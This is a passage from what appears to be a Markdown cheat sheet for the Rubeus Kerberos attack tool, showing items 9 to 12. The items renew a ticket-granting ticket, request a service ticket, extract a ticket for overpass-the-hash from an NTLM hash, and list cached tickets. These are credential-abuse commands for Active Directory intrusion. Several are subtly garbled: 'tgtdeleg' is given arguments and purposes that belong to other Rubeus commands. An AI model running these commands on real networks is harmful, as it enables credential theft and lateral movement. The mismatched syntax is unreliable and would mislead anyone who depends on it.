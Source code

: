 9. **Renew TGT (for long-lived tickets)**:
   ```
   Rubeus.exe renew /ticket:<ticket.kirbi>
   ```

10. **Request Ticket for Service (TGS Request)**:
   ```
   Rubeus.exe tgtdeleg /user:<username> /rc4:<ntlm_hash> /target:<SPN>
   ```

11. **Extract Ticket for Overpass-the-Hash**:
   ```
   Rubeus.exe tgtdeleg /nowrap /user:<username> /rc4:<ntlm_hash>
   ```

12. **List Cached Tickets**:
   ```
   Rubeus.exe klist
   ```
